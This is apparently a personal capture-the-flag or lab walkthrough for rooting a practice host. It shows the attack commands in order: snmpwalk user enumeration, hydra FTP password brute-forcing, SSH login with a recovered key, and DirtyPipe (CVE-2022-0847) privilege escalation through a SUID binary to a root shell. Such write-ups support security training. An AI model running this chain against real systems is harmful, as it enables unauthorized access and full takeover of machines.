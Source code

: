 # Take Away
- If there is no information, you are probably not enumerating enough. Try to find new ways using `hacktricks` article or blogs to enumerate more information.
# Exploitation
- Running `snmpwalk -c public -v 1 192.168.226.149 NET-SNMP-EXTEND-MIB::nsExtendObjects` will identify that two potential users. One is `john` and the other is `kiero`. Moreover, we can see from the Output that the user `kiero`'s password has been reset.![[Pasted image 20240216190703.png]]
- Running `hydra -l kiero -P /usr/share/wordlists/metasploit/unix_passwords.txt -e nsr ftp://192.168.226.149` will identify `kiero:kiero` as a pair of valid ftp credential.![[Pasted image 20240216190956.png]]
- After logging into the ftp server as `kiero`, one can locate another pair of SSH credential for `john`.
- Run `ssh john@192.168.226.149 -i id_rsa` to log in as `john`.
# PrivEsc
- `linpeas` will identify that target is potentially vulnerable to `DirtyPipe (CVE-2022-0847)`.![[Pasted image 20240216213904.png]]
- Retrieve `dirtypipez.c` and transfer onto the target host. Compile using `gcc-9 dirtypipez.c -o dirtypipez`. In order for the exploit to working, it needs to hijack a `SUID` binary which, in the case here can be `RESET_PASSWD` within `/home/john`. Run `./dirtypipez /home/john/RESET_PASSWD` to receive a root shell.